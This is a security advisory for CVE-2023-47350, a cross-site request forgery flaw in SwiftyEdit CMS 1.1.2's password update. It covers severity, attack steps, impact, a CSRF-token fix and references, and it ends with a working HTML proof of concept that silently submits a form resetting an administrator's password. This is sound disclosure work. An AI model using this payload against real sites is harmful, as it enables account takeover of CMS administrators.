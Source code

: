 # CVE-2023-47350: Cross-Site Request Forgery (CSRF) vulnerability in the user passwoprd update funcionality in SwiftyEdit CMS 1.1.2

> https://github.com/SwiftyEdit/SwiftyEdit

# Vulnerability Type
CWE-352: Cross-Site Request Forgery (CSRF)

# CVSS 8.3 HIGH
CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:L

# Description
The web application does not employ CSRF tokens to secure its 'Update Password' functionality in the user 'Profile'. This vulnerability allows threat actors to execute unauthorized password changes on user accounts, particularly when targeting administrators.

# Execution steps
1. The threat actor crafts a malicious link or HTML markup that, when interacted with by the target admin, initiates a password change request on the admin's account. This link or HTML can be disguised as a seemingly harmless request, such as a notification or update.
2. The admin, unaware of the malicious intent, clicks the link or interacts with the HTML markup.
3. As the admin is logged into the web application, their browser sends a request to change their password to the web application's server, just as it would for a legitimate password change.
4. The web application processes the request, changing the admin's password to a new one chosen by the attacker.
5. The attacker now has unauthorized access to the admin's account, potentially leading to data theft, privilege escalation, or other malicious actions.

# Impact
This Cross-Site Request Forgery vulnerability in SwiftyEdit CMS 1.1.2 may allow an unauthenticated threat actor to escalate his privileges to administrator. A malicious user can lure an administrator to execute the HTML markup and trigger a change of the administrator's password to any value he desires. The malicious user can then login as the administrator and create, edit and delete any content in the CMS and edit/delete users with any privilege.

# Remediation
Implement and enforce the use of a CSRF token for the 'Update Password' functionality in the user 'Profile'. This token should be generated uniquely for each user session and validated on the server before allowing the action to proceed.

# Proof of Concept code
Create an HTML file and add the following markup:

```html
<html>
  <body>
    <form action="http://swiftyedit/profile/" method="POST">
      <input type="hidden" name="s&#95;psw" value="1234" />
      <input type="hidden" name="s&#95;psw&#95;repeat" value="1234" />
      <input type="hidden" name="update&#95;psw&#95;data" value="Update" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# References
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-47350
- https://github.com/SwiftyEdit/SwiftyEdit/commit/90a6f3df16cd1578b2827d7b2e073451f7ce4e47
- https://nvd.nist.gov/vuln/detail/CVE-2023-47350

